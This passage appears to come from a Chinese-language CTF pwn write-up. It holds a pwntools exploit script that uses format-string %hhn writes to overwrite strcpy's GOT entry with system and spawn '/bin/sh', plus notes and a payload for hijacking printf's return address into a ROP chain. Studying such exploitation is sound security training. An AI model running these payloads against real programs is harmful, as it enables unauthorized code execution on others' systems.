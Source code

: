 ```python
    p3lowbyte=(pointer2+0x20+x)&0xff
    print('p3lowbytes='+hex(p3lowbyte))
    payload=encode2('%'+str(p3lowbyte)+'c%14$hhn')
    link.sendafter(b'encode:',payload)

    link.sendlineafter(b'choice:',b'2')
    gotlowbyte=(strcpy_got>>(x*8))&0xff
    print('gotlowbytes='+hex(gotlowbyte))
    payload=encode2('%'+str(gotlowbyte)+'c%50$hhn')
    link.sendafter(b'encode:',payload)

for i in range(6):
    print("second"+str(i))
    link.sendlineafter(b'choice:',b'2')
    # x=5-i
    gotlowbyte=(strcpy_got+i)&0xff
    print('gotlowbytes='+hex(gotlowbyte))
    payload=encode2('%'+str(gotlowbyte)+'c%50$hhn')
    link.sendafter(b'encode:',payload)

    link.sendlineafter(b'choice:',b'2')
    syslowbyte=(systemaddr>>(i*8))&0xff
    print('syslowbytes='+hex(syslowbyte))
    payload=encode2('%'+str(syslowbyte)+'c%54$hhn')
    link.sendafter(b'encode:',payload)

link.sendlineafter(b'choice:',b'2')
gotlowbyte=(strcpy_got)&0xff #恢复strcpy的got表最低位（或者从高地址开始写就不用恢复）
print('gotlowbytes='+hex(gotlowbyte))
payload=encode2('%'+str(gotlowbyte)+'c%50$hhn')
link.sendafter(b'encode:',payload)

link.sendlineafter(b'choice:',b'3')
binsh=encode3('/bin/sh')
link.sendafter(b'encode:',binsh)

link.interactive()
```

## 劫持 printf 返回地址方法
参考文章：[https://www.cnblogs.com/S1nyer/p/17914751.html](https://www.cnblogs.com/S1nyer/p/17914751.html)

限制格式化字符串长度较短

思路：覆盖低字节修改 printf 返回地址（不是程序函数返回地址），修改 printf 的返回地址跳到 gadget pop几个寄存器跳过存在栈上的格式化字符串，接着执行 read，再用 read 往原来栈上接着调用 read 的地址往后写 ROP 链从而 getshell

前提：可以泄露出 libc 地址和栈地址

核心出装：（？

```python
payload=b'%254c%10$hhn%19$paaaaaaa'  +  p64(read)  +  p64(printf_ret)
		  ↑改低字节    ↑泄露libc地址      ↑pop后继续执行  ↑利用payload放栈上的printf返回地址
```

